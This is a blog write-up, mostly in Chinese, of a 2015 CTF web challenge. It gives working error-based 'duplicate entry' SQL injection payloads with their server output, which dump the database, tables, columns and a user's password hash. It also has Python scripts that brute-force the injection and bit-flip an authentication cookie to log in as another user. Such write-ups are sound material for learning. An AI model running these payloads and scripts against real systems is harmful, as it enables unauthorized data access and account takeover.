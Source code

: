 ```yaml
---
title: mis_lead
author: tank96a
layout: post
categories:
  - article
tags:
  - web
---
```


详见[原文链接](http://www.pwntester.com/blog/2015/03/30/0ctf-2015-mislead-web-300/)

# `Duplicate entry technique` 经典注入语句
 
`Get the DB`:
{% highlight php %}
username=pwner10&password='),(select 1 FROM(select count(*),concat((select (select concat(database())) FROM information_schema.tables LIMIT 0,1),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a) );#&submit=Submit
{% endhighlight %}

Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'mislead1'` for key 'group_key'<br>maybe another username?  

`Get the tables`:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(table_name as char),0x7e)) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  
 );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'users~1'` for key 'group_key'<br>maybe another username?  

`Get the columns`:
{% highlight php %}
username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(column_name as char),0x7e)) from information_schema.columns where table_name='users' limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)  );#&submit=Submit  
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'id~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'username~1'` for key 'group_key'<br>maybe another username?

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'password~1'` for key 'group_key'<br>maybe another username?  

`Get the first user`:
{% highlight php %}
 username=pwner10&password='),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)   );#&submit=Submit
{% endhighlight %}
Output:

SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry `'0ops~13096de41fe9a97b700d4d9e21665484~1'` for key 'group_key'<br>maybe another username?  

We decide to `flip bits` in the cookie to see which byte can change the login name, then found the 14th byte make it. The logging message changes and our names is modified. So we can try to bit-flip the cookie and get the username to be 0ops. For that, the easiest way is to register a name very similar (just one letter off) and bit-flip that byte until we get the right name.

在cookies中寻找关键字节的开始位置，用户名会随着这个字节的改变而改变，这个就是可以爆破的位置。
先爆破一个和目标用户名只差一个字母的用户的cookies值：

{% highlight python %}
import requests  
url = 'http://202.112.26.101//mislead/register.php'  
for i in xrange(4000):  
    data = {
        'username': 'pwntester',
        'password': "'),(select 1 from (select count(*),concat((select(select concat(cast(concat(username,0x7e,password) as char),0x7e)) from users limit %d,1),floor(rand(0)*2))x from information_schema.tables group by x)a));#" % i,
        'submit': 'Submit',
    }
    res = requests.post(url, data=data)
    if "ops~" in res.text:
        print res.text
{% endhighlight %}

先找到cookies中的关键字节位置，然后在该位置`爆破`出目标cookies值。

{% highlight python %}
import requests  
from base64 import b64decode, b64encode  
#from hexdump import hexdump  
import sys  
import string

url = 'http://202.112.26.101//mislead/index.php'  
OopsCookie = 'YWVkMTM0MjNjYWZkY2IyMDgxODExNDcwM2E1ODY2NWZhYTAzMzY3ZjQ1ZjFjMjQxNmQxNjRjNGM1ZGM0ZDEwZA=='  
binCookie = b64decode(OopsCookie).decode("hex")  
bytelength = len(binCookie)

def is_printable(s):  
    for ch in s:
        if not ch in string.printable:
            return False
    return True

def flip_byte(msg, pos, byte=0x10):  
    msg = msg[:pos] + chr(ord(msg[pos]) ^ byte) + msg[pos+1:]
    return msg

for i in xrange(bytelength):  
    res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i).encode("hex"))})
    print i, res.text
    if "Hello" in res.text and "Oops" not in res.text:
        for c in xrange(256):
            res = requests.get(url, cookies={'auth': b64encode(flip_byte(binCookie, i, c).encode("hex"))})
            if is_printable(res.text):
                print i, c, res.text
{% endhighlight %}

感想：不能简单从cookies的长度来判断加密类型，容易陷入思维定势；经典的注入语句要记住；`requests`这个linux下的python模块确实简单好用。




